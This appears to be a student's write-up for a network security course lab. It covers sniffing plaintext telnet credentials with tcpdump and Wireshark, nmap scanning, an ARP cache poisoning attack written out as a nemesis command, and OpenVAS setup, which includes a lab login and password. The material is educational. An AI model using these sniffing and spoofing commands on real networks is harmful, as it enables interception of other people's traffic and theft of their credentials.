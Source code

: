 ## Assignment 2

  * [Setup](#setup)
    + [OpenVAS installation](#openvas-installation)
  * [1. Listening to the network](#1-listening-to-the-network)
    + [1.2 `tcpdump`](#12--tcpdump-)
    + [1.3 Wireshark](#13-wireshark)
    + [1.4 `nmap`](#14--nmap-)
  * [2. Vulnerabilities in TCP/IP](#2-vulnerabilities-in-tcp-ip)
    + [2.1 ARP redirect](#21-arp-redirect)
    + [2.2 RST Hijacking](#22-rst-hijacking)
    + [2.3 Redirect response to ICMP echo/request](#23-redirect-response-to-icmp-echo-request)
  * [3. OpenVAS](#3-openvas)

### Setup

#### OpenVAS installation

OpenVAS is a framework of several services and tools offering a comprehensive and powerful vulnerability scanning and vulnerability management solution.
Essentially it will be used to check for vulnerabilities in the configuration of machines in our virtual network.

```
cd ~/csc-course/assignment2 &&
sudo ./startVas &&
chmod +x openvas-check-setup &&
sudo ./openvas-check-setup --v9 # The --v9 flag is needed for version checking
```

Should the check fail, follow the instructions in FIX

### 1. Listening to the network

#### 1.2 `tcpdump`

Tcpdump prints the contents of network packets. With the necessary privileges on a system through which unencrypted traffic such as Telnet or HTTP passes, a user can use tcpdump to view login IDs, passwords, the URLs and content of websites being viewed, or any other unencrypted information. Here's a nice [tutorial](https://danielmiessler.com/study/tcpdump/) and [usage examples](https://www.rationallyparanoid.com/articles/tcpdump.html).

Run `sudo tcpdump` on machine 3, and generate a ICMP packet from machine 1 to 2 using

```
ping -c 1 192.168.1.2 # The count option set to 1 generates a single packet
```

The output should resemble:
```
17:07:30.455566 IP machine1 > machine2: ICMP echo request, id 2701, seq 1, length 64
17:07:30.455664 IP machine2 > machine1: ICMP echo reply, id 2701, seq 1, length 64
```

The `-X` option prints each packet in HEX and ASCII minus its link level header. The `-XX` option prints each packet in HEX and ASCII including its link level header (AKA ethernet header). Inside the HEX dump output is the destination and source MAC addresses. 


On machine 3 run `sudo tcpdump -X dst host 192.168.1.1` and start a telnet connection from machine 2 to 1 
by writing `telnet 192.168.1.1` in machine 2.
The username ("user") and password ("inseguro") should appear letter by letter in separate packets. 
This previous tcpdump command captures any packets where the destination host is 192.168.1.1 and prints each in HEX and ASCII.

Notice however that this is not possible with an SSH session.

#### 1.3 Wireshark

On machine 3, start Wireshark
```
gksu wireshark # gksu is a library that provides a Gtk+ frontend to su and sudo
```
Start a capture on enps03 device.
Repeat the telnet connection from machine 1 to 2.
On wireshark follow the TCP stream of the telnet connection.
The output should have both the user and password in clear text.

Here you can check the Ethernet, IP and TCP headers in ASCII that was in the HEX dump:

![](.images/wireshark_hexdump.png?raw=true)

However, if we establish an ssh connection between 1 and 2, Wireshark will detect the Diffie-Hellman key exchange,
but will be unable to decypher the content of the folowing ecnrypted packets.

#### 1.4 `nmap`

Nmap is a utility tht provides information on remote machines.
Issuing `nmap <IP>` should return a list of open ports on the destination machine.
`sudo nmap -O <IP>` should return the OS running on the destination machine. 

### 2. Vulnerabilities in TCP/IP

#### 2.1 ARP redirect

The arp table maps IP addresses to MAC addresses. Host machine uses ARP because when machine needs to send packet to another device, destination MAC address is needed to be written in the packet sent. 
Example: MachineA looks for MachineB's MAC address using the arp table, sends the packet to the switch. The switch matches the MAC adress in its MAC Addresses table and forwards the packet. If the MAC address was not found, the packet is broadcasted to all the ports.

**Machine 2 will be the attacker**. Start by obtaining the MAC addresses of 1 and 3.
```
ping -c 1 192.168.1.1 # 08:00:27:4b:d6:a2
ping -c 1 192.168.1.3 # 08:00:27:90:f9:41
```
Check the MAC address of the attacking machine with 
```
ifconfig # ... ether 08:00:27:94:55:1f
```

You can check the contents of the arp table with `arp -a #all`. Do it on machine 1 for example.
The command `arp` manipulates the system ARP cache, therefore the previous pings were to push the MAC addresses of those IPs to the cache.

Now, use `nemesis` in machine 2 to attack the arp table of machine 1.

```
sudo nemesis arp -v -S 192.168.1.3 -D 192.168.1.1 -h [MAC machine 2] -m [MAC machine 1]
```
-h Specifies the sender-hardware-address within the ARP frame only. 

-m Specifies the target-hardware-address within the ARP frame only. 

This should effectively fool machine 1 into thinking that machine3 has the MAC of 2, thus redirecting packets to it.
We can check the attack was succesful by checking the arp table in 1, which can resemble.
```
machine3 (192.168.1.3) at 08:00:27:94:55:1f [ether] on enp0s8
machine2 (192.168.1.2) at 08:00:27:94:55:1f [ether] on enp0s8
```
Notice how the MAC address is the same for both machines.

(Nemesis can natively craft and inject [ARP](http://nemesis.sourceforge.net/manpages/nemesis-arp.1.html), DNS, ETHERNET, ICMP, IGMP, IP, OSPF, RIP, TCP and UDP packets)

#### 2.2 RST Hijacking

TODO
I could not get this thing to work. Pls help

#### 2.3 Redirect response to ICMP echo/request

TODO

### 3. OpenVAS
Open the browser in `localhost` on the machine with openVAS (alternatively `192.168.1.[MACHINE]:443`).
Login in with
- user: `myuser`
- password: `44bb2d3f-d28f-4bcf-8f45-ae6ad2bc06b4`

1. Navigate to Scans > Tasks > Task Wizard and input the ip of the desired target.
2. Wait for like 30 mins :^)
3. Profit.
